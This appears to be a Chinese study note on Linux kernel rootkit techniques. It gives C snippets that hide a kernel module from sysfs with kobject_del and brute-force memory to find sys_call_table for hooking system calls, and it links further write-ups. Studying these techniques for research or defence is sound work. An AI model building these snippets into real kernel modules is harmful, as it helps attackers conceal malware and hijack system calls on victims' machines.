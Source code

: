 ```c
struct module_kobject {
    struct kobject kobj;
    struct module *mod;
    struct kobject *drivers_dir;
    struct module_param_attrs *mp;
    struct completion *kobj_completion;
} __randomize_layout;
```

其中kobject是组成设备模型的基本结构

要从sysfs隐藏该模块也很简单，删除对应的kobject结构即可

```c
kobject_del(&THIS_MODULE->mkobj.kobj);
```

### 系列二

[Linux Rootkit 系列二：基于修改 sys_call_table 的系统调用挂钩](https://docs-conquer-the-universe.readthedocs.io/zh_CN/latest/linux_rootkit/sys_call_table.html)

#### 基于sys_call_table的系统调用钩子

需要下面几步

* 获取sys_call_table地址

* 修改该地址的写保护

* 修改table内容

##### 获取sys_call_table地址

这里提及了几个方法

* 从 `/boot/System.map` 读取，具体方法见 https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/

* 从使用了sys_call_table的某些未导出函数的机器码里进行特征搜索，具体见 https://kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

* 从内核起始地址开始暴力搜索内存空间，对比该地址是否与自己获取到的syscall地址一致。也是这里作者用的方法（但到5.15版本内核已经没法使用了，原因说实话我也不太知道，在编译时会报找不到sys_close符号的错误，但在syscalls.h头文件里明明有定义（难道是因为没导出？））

* 在[zeroevil](research_rootkit_code.md)中还提供了两种通过kprobe获取符号的方法

爆破法代码如下

```c
unsigned long **
get_sys_call_table(void)
{
  unsigned long **entry = (unsigned long **)PAGE_OFFSET;

  for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
    if (entry[__NR_close] == (unsigned long *)sys_close) {
        return entry;
      }
  }

  return NULL;
}
```
